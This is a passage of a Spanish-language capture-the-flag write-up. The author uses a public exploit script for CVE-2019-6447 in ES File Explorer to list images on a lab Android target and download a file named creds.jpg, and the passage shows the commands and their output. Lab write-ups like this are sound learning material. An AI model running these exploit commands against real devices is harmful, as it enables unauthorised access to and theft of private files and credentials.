 Intentemos ejecutar otro comando, `listPics` por ejemplo:

```bash
┌─[z3r0byte@z3r0byte]─[~/Descargas]
└──╼ $ python3 50070.py listPics 10.10.10.247

==================================================================
|    ES File Explorer Open Port Vulnerability : CVE-2019-6447    |
|                Coded By : Nehal a.k.a PwnerSec                 |
==================================================================

name : concept.jpg
time : 4/21/21 02:38:08 AM
location : /storage/emulated/0/DCIM/concept.jpg
size : 135.33 KB (138,573 Bytes)

name : anc.png
time : 4/21/21 02:37:50 AM
location : /storage/emulated/0/DCIM/anc.png
size : 6.24 KB (6,392 Bytes)

name : creds.jpg
time : 4/21/21 02:38:18 AM
location : /storage/emulated/0/DCIM/creds.jpg
size : 1.14 MB (1,200,401 Bytes)

name : 224_anc.png
time : 4/21/21 02:37:21 AM
location : /storage/emulated/0/DCIM/224_anc.png
size : 124.88 KB (127,876 Bytes)
```
Podemos ver 4 archivos de imágen, pero hay uno que llama la atención.

¿`creds.jpg`? ¿Credenciales?

Uso la función para **descargar archivos** que tiene implementado el exploit para examinar más en detalle esta imágen, que concretamente está localizada en `/storage/emulated/0/DCIM/creds.jpg`:

```bash
┌─[z3r0byte@z3r0byte]─[~/Descargas]
└──╼ $ python3 50070.py getFile 10.10.10.247 /storage/emulated/0/DCIM/creds.jpg

==================================================================
|    ES File Explorer Open Port Vulnerability : CVE-2019-6447    |
|                Coded By : Nehal a.k.a PwnerSec                 |
==================================================================

[+] Downloading file...
[+] Done. Saved as `out.dat`.
```
Parece ser que se ha descargado, veamos la imagen para ver de que se trata:

![out](https://user-images.githubusercontent.com/67548295/139682005-3770fedb-bb3d-434b-9c92-bbdaad173a44.jpeg)
